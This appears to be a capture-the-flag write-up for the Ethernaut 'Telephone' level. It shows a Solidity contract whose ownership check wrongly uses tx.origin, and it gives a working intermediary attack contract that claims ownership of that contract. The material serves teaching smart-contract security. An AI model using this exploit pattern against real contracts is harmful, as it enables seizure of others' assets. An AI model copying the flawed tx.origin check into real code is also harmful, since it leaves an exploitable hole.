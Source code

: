# Telephone 📞

Fourth Challenge description is as follows:

Claim ownership of the contract below to complete this level.
Things that might help

- See the Help page above, section "Beyond the console"

Code:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Resolution

The goal of this challenge is to claim ownership of the contract, and we can see there's a method called `changeOwner`.

Now this method, has a particular condition: If the `tx.origin` is different from the `msg.sender` we can set a new owner.
Here's a difference between `tx.origin` and `msg.sender`:

_The tx. origin global variable refers to the **original external account that started the transaction** while msg. sender refers to the **immediate account (it could be external or another contract account)** that invokes the function._

So to claim ownership we need to create a transaction that executes the function `changeOwner` from a different sender. There's probably many ways to do this, but we could do it through a contract account.
We could deploy a `AttackTelephone` contract that calls the `changeOwner` from the `AttackTelephone` address and sets a new owner !

Here's a contract that does that!
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract AttackTelephone {
    
    address private telephoneAddress = {ETHERNAUT_TELEPHONE_CONTRACT_ADDRESS};
    address private sender = {YOUR_WALLET_ADDRESS};

    function changeOwnerOfTelephone() public {

        // Make an external call to the telephone contract address with abi.encodeWithSignature and pass the defined sender address as parameter:
        // In this case the tx.origin will be sender and msg.sender will be this contract address
         (bool success, ) = telephoneAddress.call(abi.encodeWithSignature("changeOwner(address)", sender));

         require(success, "Telephone fail or returned false!");
                  
    }
}
```

Once you successfully execute the `changeOwnerOfTelephone()` function, you can check the ownership via:
```
await contract.owner()
```
And that's it! You can submit your instance! 💥 

## License

[MIT](https://choosealicense.com/licenses/mit/)